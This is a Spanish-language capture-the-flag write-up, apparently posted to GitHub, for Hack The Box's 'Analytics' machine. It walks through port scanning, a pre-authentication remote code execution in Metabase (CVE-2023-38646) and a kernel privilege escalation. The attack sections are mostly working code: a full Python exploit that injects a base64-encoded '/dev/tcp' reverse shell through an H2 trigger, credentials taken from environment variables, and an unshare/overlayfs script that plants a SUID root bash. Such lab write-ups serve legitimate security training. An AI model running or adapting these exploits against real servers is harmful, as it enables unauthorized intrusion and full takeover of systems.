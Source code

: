 ![Analytics](https://github.com/n0m3l4c000nt35/Hack-The-Box/assets/149972189/f4eb7212-b431-473c-98ee-d8a80af39a64)

# Introducción

---
La máquina Analytics de Hack The Box se centra en la plataforma Metabase, presenta una combinación de vulnerabilidades que van desde una RCE pre-autenticación hasta una escalada de privilegios a través de una vulnerabilidad en el kernel.
Este write-up detalla el proceso de enumeración, explotación y escalada de privilegios para obtener acceso al usuario y obtener el control total del sistema.

# Reconocimiento
---
`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.233 -oG ports`

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-15 13:48 -03
Initiating SYN Stealth Scan at 13:48
Scanning 10.10.11.233 [65535 ports]
Discovered open port 80/tcp on 10.10.11.233
Discovered open port 22/tcp on 10.10.11.233
Completed SYN Stealth Scan at 13:48, 14.93s elapsed (65535 total ports)
Nmap scan report for 10.10.11.233
Host is up, received user-set (0.16s latency).
Scanned at 2023-12-15 13:48:24 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.22 seconds
           Raw packets sent: 73134 (3.218MB) | Rcvd: 72895 (2.916MB)
```

`nmap -p 22,80 -n -Pn -sCV 10.10.11.233 -oN openPorts`

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-15 13:50 -03
Nmap scan report for 10.10.11.233
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.80 seconds
```

En la fase inicial, se realizó una extensa enumeración de puertos utilizando [Nmap](https://nmap.org/).
La dirección IP se resolvió mediante la configuración del archivo `/etc/hosts`:  
`echo "<target-ip>  analytical.htb data.analytical.htb" >> /etc/hosts`

Se identificaron los servicios en los puertos 22 y 80, este último redirigiendo a `http://data.analytical.htb`. Este redireccionamiento es crucial para la posterior explotación de Metabase.

# Descubrimiento de la vulnerabilidad
---
La investigación reveló una vulnerabilidad pre-autenticación en Metabase, específicamente [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646). Este fallo permite la ejecución remota de código, proporcionando acceso al servidor.
Un minucioso detalle acerca de la vulnerabilidad se encuentra en [Pre-Auth RCE in Metabase (CVE-2023-38646)](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/).

# Explotación de la Vulnerabilidad
---
Se creó un script en Python para aprovechar la vulnerabilidad, estableciendo una conexión inversa al servidor objetivo. El script aprovecha la vulnerabilidad para ejecutar una shell interactiva, permitiendo al atacante el control total del sistema.

```python
#!/usr/bin/python3

import sys, signal, requests, json, base64, threading, argparse
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

# ctrl + c
signal.signal(signal.SIGINT, def_handler)

def get_arguments():
    parser = argparse.ArgumentParser(description="Analytics Reverse Shell")
    parser.add_argument("-lh", "--lhost", dest="lhost", required=True, help="Your IP (Ex: -lh 192.168.0.1)")
    parser.add_argument("-lp", "--lport", dest="lport", required=True, help="Listening port (Ex: --lport 1234)")
    options = parser.parse_args()

    return options.lhost, options.lport

def get_setup_token():
    response = requests.get("http://data.analytical.htb/api/session/properties", verify=False)
    data = response.json()
    setup_token = data.get("setup-token")
    return setup_token

def create_payload(lhost, lport):
    payload = f"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"
    payload_base64 = base64.b64encode(payload.encode()).decode()
    return payload_base64

def get_reverse_shell():
    shell_url = "http://data.analytical.htb/api/setup/validate"    
    headers = {"Content-Type": "application/json"}
    shell_data = {
        "token": setup_token,
        "details": {
            "is_on_demand": False,
            "is_full_sync": False,
            "is_sample": False,
            "cache_ttl": None,
            "refingerprint": False,
            "auto_run_queries": True,
            "schedules": {},
            "details": {
                "db": f"zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{payload_base64}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x",
                "advanced-options": False,
                "ssl": True
            },
            "name": "an-sec-research-team",
            "engine": "h2"
        }
    }
    response = requests.post(shell_url, headers=headers, data=json.dumps(shell_data))

if __name__ == '__main__':
    
    lhost, lport = get_arguments()

    setup_token = get_setup_token()
    print(f"\n[+] Setup token: {setup_token}\n")

    payload_base64 = create_payload(lhost, lport)

    threading.Thread(target=get_reverse_shell, args=()).start()

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()
```

Con el acceso adquirido a través de la vulnerabilidad de Metabase, se procedió a investigar y descubrir credenciales almacenadas en las variables de entorno (`env`). Se identificaron las siguientes credenciales:

```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Estas credenciales permitieron el acceso mediante SSH al servidor objetivo. Utilizando el comando:
```bash
ssh metalytics@<target-ip>
An4lytics_ds20223#
```

Se estableció una conexión SSH exitosa, otorgando acceso al sistema como el usuario `metalytics`.

## User Flag
---

Una vez dentro del sistema, se ubicó la user flag en el directorio `/home/metalytics`.

> [!IMPORTANT]
> `cat /home/metalytics/user.txt`

# Escalada de privilegios
---
La fase de escalada de privilegios aprovechó una vulnerabilidad en el kernel [CVE-2023-2640 Detail](https://nvd.nist.gov/vuln/detail/CVE-2023-2640) detectado con el comando `uname -rs`.

Se utilizó un script con el comando `unshare` para obtener privilegios de root. Posteriormente, se obtuvo acceso al sistema como el usuario `root`.

```bash
#!/bin/bash

tmp_bash=/var/tmp/bash

echo -e "\n[+] Comprobando si el archivo '/var/tmp/bash' existe"

if [ -e "$tmp_bash" ] && [ -u "$tmp_bash" ]; then
	echo -e "\n[+] El archivo bash existe y tiene permisos SUID"
	ls -l /var/tmp/bash
	echo -e "\n[+] Ganando acceso como root\n"
	/var/tmp/bash -p
else
	echo -e "\n[!] El archivo $tmp_bash no existe\n"
	unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
fi
```

## Root Flag
---
Con privilegios de root, se localizó la root flag en el directorio `/root`.

> [!IMPORTANT]
> `cat /root/root.txt`
